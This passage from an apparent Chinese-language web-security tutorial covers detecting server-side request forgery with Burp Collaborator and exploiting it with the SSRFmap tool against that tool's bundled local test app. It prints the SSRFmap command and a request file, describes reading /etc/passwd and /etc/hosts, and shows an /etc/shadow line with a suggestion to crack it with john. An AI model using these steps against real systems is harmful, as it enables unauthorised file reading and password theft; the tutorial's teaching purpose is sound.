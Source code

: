 访问后回到 Burp Collaborator client，点击"Poll now"就可以看到 DNS 请求记录，这说明存在 SSRF 漏洞。

<Image alt="Drawing 10.png" src="https://s0.lgstatic.com/i/image/M00/8D/8C/Ciqc1F___PCAJA70AABnCpr9zFk818.png"/>  
图 11：获得 DNS 请求日志证明存在 SSRF 漏洞

这个检测方法比较通用简单，且无须自己搭建 DNS 服务器，非常方便，我强烈推荐。

#### 2.工具：SSRFmap

这里给大家介绍一款 SSRF 检测工具：[SSRFmap](https://github.com/swisskyrepo/SSRFmap)，利用它可检测与利用 SSRF 漏洞， 同时它也整合了一些常用漏洞可以结合 SSRF 去利用，比如 fastjson、mysql、github 的一些历史漏洞，还有端口扫描、读取文件等利用功能，都是实用的漏洞利用能力。

使用上会比 Burp Collaborator 便捷，但检测能力上其实没有 Burp Collaborator 那样准确，SSRFmap 有时会利用失败。所以个人推荐使用 Burp Collaborator 用来检测 SSRF 是否存在，再使用 SSRFmap 做一些漏洞利用，比如读取敏感文件等操作。

SSRFmap 是以 HTTP 请求数据作为文件输入，使用命令如下：

<Image alt="Drawing 11.png" src="https://s0.lgstatic.com/i/image/M00/8D/8C/Ciqc1F___PiASgPlAAEZ_x3Bz0k961.png"/>  
图 12：SSRFmap

用其自带的测试用例，试用下：

```java
FLASK_APP=data/example.py flask run &
python ssrfmap.py -r data/request.txt -p url -m readfiles
```

其中 data/request.txt 内容如下：

```java
POST /ssrf HTTP/1.1
Host: 127.0.0.1:5000
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:62.0) Gecko/20100101 Firefox/62.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://mysimple.ssrf/
Content-Type: application/x-www-form-urlencoded
Content-Length: 31
Connection: close
Upgrade-Insecure-Requests: 1
url=https%3A%2F%2Fwww.google.fr%
```

它会读取很多敏感文件，比如 /etc/passwd、/etc/hosts：

<Image alt="Drawing 12.png" src="https://s0.lgstatic.com/i/image/M00/8D/98/CgqCHl___QOAXop9AAFeL92aWyk084.png"/>  
图 13：利用 SSRFmap 读取本地文件

以上我们测试了，然后读取了敏感文件，然后好像就戛然而止了，读取之后就没有下文了。比如你想破解主机密码，就可以读取文件 /etc/shadow 以获得用户名和密码密文，然后就可以用 john 去破解密码：

```java
$ sudo cat /etc/shadow
root:$6$TBFgG/seGvOG8nOp$LvZXXXXXXXENV2F6SEATplyE1QY33W2buEs10XLi.zQD8iwl.kCwsD.OMQ6WWkmUdu/9RPLHvLYSzMfcLj0:18446:0:99999:7:::
daemon:*:18375:0:99999:7:::
bin:*:18375:0:99999:7:::
sys:*:18375:0:99999:7:::
......
```
